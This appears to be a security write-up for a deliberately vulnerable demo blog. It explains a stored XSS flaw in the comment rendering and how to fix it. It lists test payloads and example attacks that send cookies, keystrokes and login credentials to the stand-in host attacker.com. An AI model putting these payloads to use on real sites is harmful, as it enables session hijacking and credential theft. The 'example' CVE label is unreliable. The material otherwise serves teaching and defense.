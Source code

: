 # Cross-Site Scripting (XSS) Vulnerability

## Overview
Cross-Site Scripting (XSS) vulnerabilities occur when an application includes untrusted data in a web page without proper validation or escaping. In this application, the blog comments feature is vulnerable to XSS attacks because it renders user input directly in the HTML without sanitization.

## CVE Reference
CVE-2023-23756 (Example CVE for XSS)

## Vulnerable Endpoints
- `/posts/:id` (Comment section)
- `/posts/:id/comments` (Comment submission)

## How to Test

1. Navigate to any blog post:
   ```
   /posts/1
   ```

2. Try these XSS payloads in the comment field:

   ### Basic Script Injection
   ```html
   <script>alert('XSS')</script>
   ```

   ### Event Handler Injection
   ```html
   <img src="x" onerror="alert('XSS')">
   ```

   ### JavaScript URI
   ```html
   <a href="javascript:alert('XSS')">Click me</a>
   ```

   ### DOM-based XSS
   ```html
   <div onmouseover="alert('XSS')">Hover over me</div>
   ```

## Example Attack Scenarios

### 1. Cookie Theft
```html
<script>
fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

### 2. Keylogger Injection
```html
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/log?key=' + e.key);
});
</script>
```

### 3. Phishing Form
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:white">
  <h2>Please Re-login</h2>
  <form action="https://attacker.com/steal">
    Username: <input name="username"><br>
    Password: <input type="password" name="password"><br>
    <button>Login</button>
  </form>
</div>
```

## How It Works
The vulnerability exists because comment content is rendered directly in the template without sanitization:

```javascript
// Vulnerable code in post.ejs
<%- comment.content %>  // Using <%- %> renders HTML without escaping
```

Instead of:
```javascript
<%= comment.content %>  // Using <%= %> escapes HTML
```

## Prevention

1. Output Encoding:
```javascript
// In EJS templates, use <%= instead of <%- 
<%= comment.content %>
```

2. Content Security Policy (CSP):
```javascript
// In app.js
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'"
  );
  next();
});
```

3. Input Validation:
```javascript
const sanitizeHtml = require('sanitize-html');

app.post('/posts/:id/comments', (req, res) => {
  const sanitizedContent = sanitizeHtml(req.body.content, {
    allowedTags: [], // No HTML allowed
    allowedAttributes: {}
  });
  // Save sanitizedContent to database
});
```

4. Additional Prevention Measures:
   - Use the `helmet` middleware for security headers
   - Implement CSRF tokens
   - Set proper cookie security flags
   - Keep dependencies updated
   - Use modern frameworks with built-in XSS protection

## Impact of XSS
- Session hijacking
- Data theft
- Malware distribution
- Defacement
- Credential harvesting
- Network scanning
- Port scanning
- Botnet recruitment

## Testing Tools
- Browser Developer Tools
- XSS Hunter
- OWASP ZAP
- Burp Suite

## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
